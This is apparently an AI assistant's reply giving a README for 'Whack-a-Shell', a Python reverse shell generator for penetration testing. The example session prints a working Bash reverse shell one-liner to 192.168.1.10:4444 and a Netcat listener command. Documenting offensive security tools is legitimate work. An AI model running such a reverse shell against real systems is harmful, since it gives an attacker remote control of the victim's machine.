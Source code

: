 Here is a GitHub-ready **README.md** file for your reverse shell generator project. You can copy and paste it directly into your GitHub repository:

```md
# Reverse Shell Generator

A Python tool for dynamically generating reverse shell commands for both Windows and Linux systems. This tool supports multiple shell types and provides easy-to-use prompts with built-in IP address and port validation.

## Features

- **Cross-platform support**: Generates reverse shell commands for both Windows and Linux systems.
- **Multiple reverse shell types**: Includes Bash, Python, Netcat for Linux, and PowerShell, Netcat for Windows.
- **User-friendly interface**: Simple prompts for user input and shell selection.
- **Error handling**: Validates IP address and port input, handling incorrect entries gracefully.

## Requirements

- **Python 3.x**
- `colorama` library for colored terminal output
- `ipaddress` library for IP validation (built into Python 3)
- Your custom `reverse_shells.py` file that contains `LinuxReverseShellGenerator` and `WindowsReverseShellGenerator`.

### Install dependencies

Run the following command to install `colorama`:

```bash
pip install colorama
```

## How to Run

1. Clone or download this repository to your local machine.
2. Ensure the `reverse_shells.py` file is in the same directory as the main script.
3. Run the Python script:

```bash
python3 Whack-a-Shell.py
```

## Usage

1. Select the target operating system (Windows or Linux) when prompted.
2. Enter a valid IP address and port number.
3. Choose from the available reverse shell types based on your OS selection.
4. The generated reverse shell command will be displayed, along with the command to set up a Netcat listener on the attack machine.

## Example

```
Please select the OS for the reverse shell:
Enter 1 for Windows
Enter 2 for Linux
Choice: 2

You have selected Linux for the reverse shell.

Enter the IP address: 192.168.1.10
Enter the port number: 4444

Please choose the shell program

Enter 1 for Bash Reverse Shell
Enter 2 for Python Reverse Shell
Enter 3 for Netcat Reverse Shell
Choice: 1

Here is your reverse shell: sh -i >& /dev/tcp/192.168.1.10/4444 0>&1

Run this command on the attack machine to set up a listener: nc -nvlp 4444
```

## Error Handling

- **Invalid IP Address**: The program will prompt for a valid IP address if the input is not a valid IPv4 format.
- **Invalid Port**: The port number must be between 1 and 65535. If the input is outside this range or is not a number, the program will prompt for a valid port.

## Customization

You can easily extend this tool by adding more reverse shell options to the `LinuxReverseShellGenerator` and `WindowsReverseShellGenerator` classes in the `reverse_shells.py` file.
